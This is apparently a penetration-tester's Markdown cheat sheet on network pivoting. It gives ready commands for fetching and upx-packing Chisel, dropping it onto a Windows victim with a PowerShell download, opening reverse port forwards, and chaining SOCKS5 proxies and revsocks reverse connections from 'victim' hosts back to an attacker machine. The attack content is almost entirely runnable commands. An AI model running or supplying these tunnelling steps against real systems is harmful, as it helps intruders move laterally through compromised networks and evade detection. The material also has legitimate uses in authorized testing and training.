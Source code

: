 


## Pivoting

* [PayloadsAllTheThings/Network Pivoting Techniques.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Network%20Pivoting%20Techniques.md)



### Chisel

1. [github.com/jpillora/chisel/releases](https://github.com/jpillora/chisel/releases)
2. [snovvcrash.github.io/2020/03/17/htb-reddish.html#chisel-socks](https://snovvcrash.github.io/2020/03/17/htb-reddish.html#chisel-socks)

Reverse forward port 1111 from Windows machine to port 2222 on Linux machine:

```
root@kali:$ wget [1/linux]
root@kali:$ gunzip chisel*.gz && rm chisel*.gz && mv chisel* chisel && chmod +x chisel

root@kali:$ wget [1/windows]
root@kali:$ gunzip chisel*.exe.gz && rm chisel*.exe.gz && mv chisel*.exe chisel.exe && upx chisel.exe
root@kali:$ md5sum chisel.exe

root@kali:$ ./chisel server -p 8000 -v -reverse

PS > (new-object net.webclient).downloadfile("http://127.0.0.1/chisel.exe", "$env:userprofile\music\chisel.exe")
PS > get-filehash -alg md5 chisel.exe
PS > Start-Process -NoNewWindows chisel.exe client 127.0.0.1:8000 R:127.0.0.1:2222:127.0.0.1:1111
```

Socks5 proxy with Chisel:

```
1. root@kali:$ ./chisel server -p 8000 -reverse
2. user@victim:$ ./chisel client 10.14.14.5:8000 R:127.0.0.1:8001:127.0.0.1:8002 &
3. user@victim:$ ./chisel server -v -p 8002 --socks5 &
4. root@kali:$ ./chisel client 127.0.0.1:8001 1080:socks
```



### revsocks

* [github.com/kost/revsocks](https://github.com/kost/revsocks)

```
1. root@kali:$ ./revsocks -listen :8000 -socks 127.0.0.1:1080 -pass 'Passw0rd1!'
2. user@victim:$ ./revsocks -connect 10.14.14.3:8000 -pass 'Passw0rd1!'
```




## Post Exploitation


[//]: # (# -- 5 spaces before)
[//]: # (## -- 4 spaces before)
[//]: # (### -- 3 spaces before)
[//]: # (#### -- 2 spaces before)
[//]: # (##### -- 1 spaces before)